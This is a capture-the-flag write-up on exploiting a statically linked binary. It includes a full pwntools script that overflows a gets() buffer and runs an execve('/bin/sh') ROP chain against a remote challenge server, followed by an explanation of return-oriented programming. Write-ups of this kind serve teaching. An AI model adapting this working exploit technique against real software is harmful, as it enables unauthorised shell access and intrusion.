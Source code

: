 # Statics and Dynamics 

So this is a static binary. It's got a lot of libc zipped up within itself, removing ret2libc and ret2plt and stuff like that. Disassembling main and ignoring all the extra libc functions, we see it prints the string about it being a large binary and then calls gets on rbp-0x100. So, buffer overflow obviously. But what do we ret to? How to pop a shell?

System, execve etc. all the stuff that may be useful for shell popping is removed from the binary's libc functions. That doesn't matter though.

The libc is *big*, and it has a lot of purposes. It'll need to do many things including syscalls. Because of this, libc is always a ROP gadget goldmine. Since this binary has most of libc in itself, this binary is also a ROP gadget goldmine.

Due to this, we can build a simple execve ROP chain to execve("/bin/sh",NULL,NULL), then cat flag.txt.

```python

from pwn import *
NUM_TO_RET = 0x100 + 8
padding = b'A' * NUM_TO_RET
e = ELF("./sad")
poprax = 0x000000000043f8d7
poprdi = 0x000000000040187a
poprsi = 0x0000000000407aae
poprdx = 0x000000000040177f
syscall = 0x000000000040eda4
binsh = next(e.search(b"/bin/sh\x00"))
# Build execve rop chain
payload = flat(poprdi,binsh,poprsi,0,poprdx,0,poprax,0x3b,syscall,word_size=64)
p = e.process() if args.LOCAL else remote('jh2i.com', 50002)
p.recvline()
p.sendline(padding + payload)
p.interactive()
```
#### Flag: flag{radically_statically_roppingly_vulnerable}
<hr>

## EXPLANATION:

What I just used here is called Return Oriented Programming. ROP works by building chains of return addresses. When a program rets, it'll go to the next value off the stack as a return address. So, if our input is ever at the top of the stack, we can build chains of return addresses, causing it to continue ret-ing into the next location.

The ROP chain i used uses syscalls or system calls, the lowest level, used for special calls to the system, e.g opening files, writing to files, and in this case executing files.

The chain I just used is as follows. It uses the execve syscall since the function is not available. Remember 64-bit arguments are in rdi, then rsi, then rdx...

Our goal is to execute execve("/bin/sh",0,0) as a syscall

+ pop rdi address - pop next value off the stack into rdi for first argument
+ /bin/sh address - to be popped into rdi as first argument
+ pop rsi address - pop next value off the stack into rsi for second argument
+ 0 - to be popped into rsi as second argument
+ pop rdx address - pop next value off the stack into rdx for third argument
+ 0 - to be popped into rdx as third argument
+ pop rax address - pop next value off of the stack into rax. RAX stores the syscall number when a syscall is done.
+ 0x3b - to be popped into rax for the syscall number. 0x3b is execve
+ syscall address - execute the syscall. Will be asking the kernel to execute execve("/bin/sh",0,0)
